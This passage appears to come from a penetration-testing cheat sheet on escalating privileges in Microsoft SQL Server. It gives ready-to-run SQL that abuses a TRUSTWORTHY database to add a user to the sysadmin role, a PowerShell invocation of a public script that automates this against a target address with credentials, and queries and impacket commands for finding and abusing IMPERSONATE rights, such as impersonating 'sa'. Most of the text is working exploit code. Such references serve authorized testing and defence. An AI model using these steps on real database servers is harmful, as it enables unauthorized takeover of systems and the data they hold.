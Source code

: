 If you found you are db\_owner of a trustworthy database, you can privesc

```sql
--1. Create a stored procedure to add your user to sysadmin role
USE <trustworthy_db>

CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'USERNAME','sysadmin'

--2. Execute stored procedure to get sysadmin role
USE <trustworthy_db>
EXEC sp_elevate_me

--3. Verify your user is a sysadmin
SELECT is_srvrolemember('sysadmin')
```

Otherwise, we can use [Invoke-SqlServerDbElevateDbOwner](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1) powershell script to automate the exploit

```powershell
Import-Module .Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance 10.2.2.184
```
{% endtab %}

{% tab title="Impersonate" %}
SQL Server has a special permission, named **`IMPERSONATE`**, that **allows the executing user to take on the permissions of another user** or login until the context is reset or the session ends.

To enumerate users that you can impersonate, run the following queries

```sql
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned
```

We may also use [mssqlclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) from [Impacket](https://github.com/fortra/impacket) to enumerate users that we can impersonate

```bash
SQL (dbo@ScrambleHR)> enum_impersonate
```

If you can impersonate a user, even if he isn't sysadmin, you should check i**f the user has access** to other **databases** or linked servers.

```sql
# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```
